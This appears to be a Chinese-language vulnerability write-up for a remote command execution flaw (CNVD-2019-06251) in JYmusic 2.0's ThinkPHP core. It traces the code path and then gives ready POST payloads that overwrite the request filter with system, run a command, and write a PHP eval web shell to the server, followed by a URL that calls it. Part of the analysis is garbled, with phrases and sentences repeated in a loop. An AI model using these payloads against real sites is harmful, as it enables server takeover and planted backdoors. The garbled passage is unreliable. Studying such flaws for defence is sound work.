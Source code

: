 （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞
===========================================

一、漏洞简介
------------

CNVD-2019-06251

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call\_user\_func函数。

![](./.resource/JYmusic2.0命令执行漏洞/media/rId26.png)

通过构造使得\$filter=system， \$value=dir
，通过call\_user\_func函数即可执行系统命令" dir "。

#### array\_walk\_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array\_walk\_recursive函数调用了filterValue函数。array\_walk\_recursive()
函数对数组中的每个元素应用用户自定义函数。

![](./.resource/JYmusic2.0命令执行漏洞/media/rId28.png)

![](./.resource/JYmusic2.0命令执行漏洞/media/rId29.jpg)

#### input函数

/core/library/think/Request.php中的param函数调用了input函数。

![](./.resource/JYmusic2.0命令执行漏洞/media/rId31.jpg)

![](./.resource/JYmusic2.0命令执行漏洞/media/rId32.jpg)

#### exec 函数

/core/library/think/App.php类中的exec
函数通过Request::instance()-\>param()调用了param函数。

![](./.resource/JYmusic2.0命令执行漏洞/media/rId34.jpg)

#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数

![](./.resource/JYmusic2.0命令执行漏洞/media/rId36.jpg)

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

![](./.resource/JYmusic2.0命令执行漏洞/media/rId37.jpg)

![](./.resource/JYmusic2.0命令执行漏洞/media/rId38.jpg)

#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request-\>method()调用了method函数。

/core/library/think/Request.php类中，通过post参数\_method=\_\_construct调用构造函数：

![](./.resource/JYmusic2.0命令执行漏洞/media/rId40.png)

在构造函数里用filter=system覆盖类中的filter变量。

![](./.resource/JYmusic2.0命令执行漏洞/media/rId41.png)

post参数 method=GET
就是要再次调用method函数，并且使得if(true===\$method)为真，从而获取
\_SERVER\[REQUEST\_METHOD\]=dir 这个参数值。

![](./.resource/JYmusic2.0命令执行漏洞/media/rId42.jpg)

#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：

![](./.resource/JYmusic2.0命令执行漏洞/media/rId47.png)

POST的参数的作用已在漏洞分析环节分析。
filter=system&\_SERVER\[REQUEST\_METHOD\]=dir&\_method=\_\_construct&method=GET
POST参数后不能有\\r\\n回车换行，如果有就不能成功执行。 POST /captcha
HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell

![](./.resource/JYmusic2.0命令执行漏洞/media/rId49.png)

    filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET

#### phpinfo()

![](./.resource/JYmusic2.0命令执行漏洞/media/rId51.png)

    http://0-sec.org/test.php?test=phpinfo(); 

    //末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。

四、参考链接
------------

> <https://blog.csdn.net/yun2diao/article/details/91345116>
